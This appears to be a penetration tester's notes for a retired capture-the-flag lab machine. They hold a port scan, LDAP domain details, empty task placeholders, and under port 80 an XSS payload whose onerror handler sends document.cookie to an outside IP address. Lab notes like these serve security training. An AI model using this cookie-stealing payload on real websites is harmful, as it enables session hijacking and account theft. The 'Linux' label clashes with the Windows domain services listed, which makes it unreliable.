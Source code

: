 ### Linux Machine - Easy - Retired 

## Target IP 10.10.10.175

## Ports :

			PORT     STATE SERVICE
			53/tcp   open  domain
			80/tcp   open  http 
			88/tcp   open  kerberos-sec
			135/tcp  open  msrpc
			139/tcp  open  netbios-ssn
			389/tcp  open  ldap
			445/tcp  open  microsoft-ds
			464/tcp  open  kpasswd5
			593/tcp  open  http-rpc-epmap
			636/tcp  open  ldapssl
			3268/tcp open  globalcatLDAP
			3269/tcp open  globalcatLDAPssl

## Notes :
			
Port 80 : Nothing , need some cookie for posting maybe xss there ?
Name=test&Name=test&Email=test%40mail.htb&Message=test; <img srx=x onerror=
fetch('http://10.10.14.32:80/c'+document.cookie);>

port 389 :
ROOT>
|       domainFunctionality: 7
|       forestFunctionality: 7
|       domainControllerFunctionality: 7
|       rootDomainNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL
|       ldapServiceName: EGOTISTICAL-BANK.LOCAL:sauna$@EGOTISTICAL-BANK.LOCAL


## Tasks :

- [+] : 

	>>
	
- [+] : 

	>>
	
- [+] : 

	>>
	
- [+] : 

	>>
	
- [+] : 

	>>
	
- [+] : 

	>>
	
- [+] : 

	>>
	
- [+] : 

	>>
	
- [+] : 

	>>
	
- [+] : 

	>>
	
- [+] : 

	>>
	

